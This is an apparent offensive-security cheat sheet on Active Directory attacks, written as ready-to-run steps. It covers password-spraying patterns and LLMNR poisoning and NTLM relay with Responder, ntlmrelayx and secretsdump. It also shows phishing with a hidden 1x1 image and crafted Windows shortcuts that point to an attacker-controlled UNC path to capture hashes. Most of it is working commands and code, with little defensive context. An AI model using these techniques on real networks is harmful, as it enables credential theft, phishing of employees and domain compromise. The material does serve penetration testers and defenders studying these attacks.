 ```yaml
---
title: AD Attacks
category: Active Directory
order: 99
---
```


# Password Spraying

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. Patterns such as MonthYear (August2022), SeasonYear (Summer2022) and DayDate (Tuesday6) are very common.

Another pattern too common is the name of the company and the year (Corp2022)


# LLMNR / NetBIOS Poisoning

We can grab some hashed credentials if LLMNR protocol is enabled.

```
sudo responder -I eth0 -Fw
```

After some time we can get all the hashes.

```
cd /usr/share/responder
sudo python DumpHash.py
```

# NTLM Relay (SMB signing disabled)

Some tiems some server are misconfigured and have the smb signing disabled, so we can perform more attacks with responder.

## Configuration

* /etc/proxychains4.conf

```
socks4  127.0.0.1       1080
```

* /usr/share/responder/Responder.conf

```
[Responder Core]

; Servers to start
SMB = Off
HTTP = Off
```

## Perform the attack

We need to get a list of the servers with the SMB sigining disabled.

```
crackmapexec smb --gen-relay-list vulnerable_servers.txt 10.10.10.0/24
```

Execute the attack with Responder and Impacket.

```
impacket-ntlmrelayx.py -tf ./vulnerable_servers.txt -socks -smb2support
sudo responder -I eth0
```

We can list the current sessions with the next command.

```
ntlmrelayx> socks
```

When a session with administrative privileges is found we can use secretsdump or other tool with proxychains to use the session captured.

```
proxychains impacket-secretdump DOMAIN/admin@IP
```

# Forcing NTLM Authentication

You can try to socially engineer a privilege user to authenticate to you.

## 1x1 Images in Emails

You can send an invisible 1x1 pixel image embedded on a body of a phishing email. When the recipient view the email in their mail client, such as Outlook, it will attempt to download the image and will trigger an NTLM authentication attemp.

```
<img src="\\<attacker-ip>\image.png" height="1" width="1" />
```

> **Note**: Modify the email signature of a user, so when they send legitimate emails they will trigger NTLM authentication.

## Windows Shortcuts

A windows shortcut can have multiple properties such as directory and an icon.

We can create a icon property pointing to a UNC path and will trigger an NTLM authentication attempt when it's viewed in Explorer even if it doesn't have been clicked.

```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\smbsrv01\software\test.lnk")
$shortcut.IconLocation = "\\<attacker-ip>\test.ico"
$shortcut.Save()
```
A good location would be public readable shares.

## Zero Click

Since UNC Paths on windows shortcuts has been patched on early updates, there are another vulnerability.

* [https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/](https://cymulate.com/blog/zero-click-one-ntlm-microsoft-security-patch-bypass-cve-2025-50154/)


```
function create-lnk { param($targetPath)

$shortcutPath = "lab.lnk"
$iconLocation = "C:\Windows\System32\SHELL32.dll"

$wShell = New-Object -ComObject WScript.Shell
$shortcut = $wShell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.IconLocation = $iconLocation

$shortcut.Save()

Write-Output "Shortcut created at: $shortcutPath"
}
```